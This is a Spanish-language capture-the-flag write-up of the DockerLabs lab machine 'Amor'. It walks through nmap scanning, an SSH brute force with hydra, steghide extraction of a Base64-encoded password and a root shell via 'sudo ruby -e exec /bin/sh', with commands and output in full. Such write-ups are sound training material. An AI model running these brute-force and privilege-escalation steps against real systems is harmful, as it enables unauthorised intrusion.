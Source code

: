 # 🖥️ Writeup - Amor 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip amor.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh amor.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-13 15:38 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000037s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:72:b6:8b:5f:7c:23:64:dc:15:21:32:5f:ce:40:0a (ECDSA)
|_  256 05:8a:a7:27:0f:88:b9:70:84:ec:6d:33:dc:ce:09:6f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: SecurSEC S.L
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.74 seconds
```

Tenemos abiertos los puertos `22` y `80`.

Accedemos por `HTTP` y, entre otras cosas, nos encontramos con el siguiente mensaje:

```
¡Importante! Despido de empleado

Juan fue despedido de la empresa por enviar un correo con la contraseña a un compañero.

Firmado: Carlota, Departamento de ciberseguridad
```

Podemos deducir que `carlota` es un usuario válido del sistema de la empresa, mientras que `juan` puede que ya no lo sea porque lo han despedido.

Como no encontramos nada haciendo `fuzzing` de directorios, intentamos un ataque de fuerza bruta sobre el puerto `SSH` con el usuario `carlota`.

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 60
```

Info:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-13 15:44:39
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 60 tasks per 1 server, overall 60 tasks, 14344399 login tries (l:1/p:14344399), ~239074 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
```

Encontramos credenciales válidas para `carlota` : `babygirl`.

Accedemos por `SSH`.

```bash
ssh carlota@172.17.0.2
```

# ESCALDA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo` y `SUID`.

Pero no encontramos ninguna vía de escalada.

Buscando entre los archivos de `carlota` encontramos una imagen que podría contener información adicional, así que la transferimos a nuestra máquina `Kali`.

```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg .
```

Info:
```
carlota@172.17.0.2's password: 
imagen.jpg                                                            100%   51KB  29.6MB/s   00:00
```

Intentamos extraer información oculta de la imagen:

```bash
steghide extract -sf imagen.jpg 
```

Se nos pide una passphrase y la dejamos en blanco.

Info:
```
Enter passphrase: 
wrote extracted data to "secret.txt".
```

Conseguimos extraer información de la imagen, que ahora se encuentra en un archivo `secret.txt`.

```
ZXNsYWNhc2FkZXBpbnlwb24=
```

Al revisar su contenido obtenemos un string en `Base64`, que debemos decodificar.

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d
```
Info:
```
eslacasadepinypon
```

Probamos a utilizar esta posible contraseña para autenticarnos como el usuario `oscar`, que habíamos visto anteriormente en el archivo `/etc/passwd`.

```bash
su oscar
```

Introducimos la contraseña `eslacasadepinypon` y, efectivamente, conseguimos pivotar al usuario `oscar`.

Volvemos a comprobar permisos `sudo` y `SUID`.

```bash
sudo -l
```

Info:
```
Matching Defaults entries for oscar on 8deed0004059:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User oscar may run the following commands on 8deed0004059:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Verificamos que podemos ejecutar el binario `ruby` con privilegios de `root`, lo que aprovechamos para escalar privilegios de esta manera:

```bash
sudo ruby -e 'exec "/bin/sh"'
```

Info:
```
# whoami
root
# 
```

Ya somos root!
